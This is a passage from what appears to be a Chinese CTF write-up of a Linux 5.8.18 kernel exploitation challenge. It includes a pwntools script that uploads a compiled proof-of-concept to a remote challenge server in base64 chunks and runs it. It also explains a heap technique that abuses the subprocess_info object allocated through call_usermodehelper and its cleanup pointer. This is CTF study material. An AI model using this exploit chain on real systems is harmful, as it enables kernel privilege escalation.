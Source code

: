 ```c
    pthread_join(thread_pid1,NULL);
    
    return 0;
}
```

* send.py

```python
#!/bin/sh
import os
from pwn import *

def cmd(cmd):
    io.sendline(cmd)
    buf = io.recvuntil("$ ")
    return buf

def pwn():
    SIZE = 0x200
    FILE = "poc" 
    
    os.popen("musl-gcc -o %s -static poc.c"%FILE).read()
    md5 = os.popen("md5sum poc").read()
    
    with open("poc", "rb") as f:
        data = f.read()
    encoded = base64.b64encode(data)
    
    io.sendlineafter("$ ","cd /tmp")
    for i in range(0, len(encoded), SIZE):
        info("%d / %d" % (i, len(encoded)))
        cmd("echo \"%s\" >> /tmp/base" % (encoded[i:i+SIZE]))
    cmd("cat /tmp/base | base64 -d > /tmp/poc")
    cmd("chmod +x /tmp/poc")
    info("Done! md5 => %s"%md5)
    io.sendlineafter("$ ","md5sum /tmp/poc")
    io.interactive()

if __name__ == '__main__':
    io = remote("47.97.109.170","3001")
    # io = process('./boot.sh', shell=True)
    pwn()
```

* 讨论下这个做法

思路就是`socket(22, AF_INET, 0)`，执行时，没有22号协议族会有
`call_usermodehelper -> call_usermodehelper_setup -> kzalloc(sizeof(struct subprocess_info), gfp_mask)`这样的调用链来从kmalloc-128中取出一块。

[subprocess_info](https://elixir.bootlin.com/linux/v5.8.18/source/include/linux/umh.h#L19)结构体各版本有细微差异。本题中在info+0x60的地方是cleanup指针。
```c
/*
$ file bzImage 
user/bzImage: Linux kernel x86 boot executable bzImage, version 5.8.18 (root@3bdbf71203d5) #2 SMP Fri Dec 17 12:06:32 UTC 2021, RO-rootFS, swap_dev 0x8, Normal VGA
找到
*/
struct subprocess_info {
	struct work_struct work;
	struct completion *complete;
	const char *path;
	char **argv;
	char **envp;
```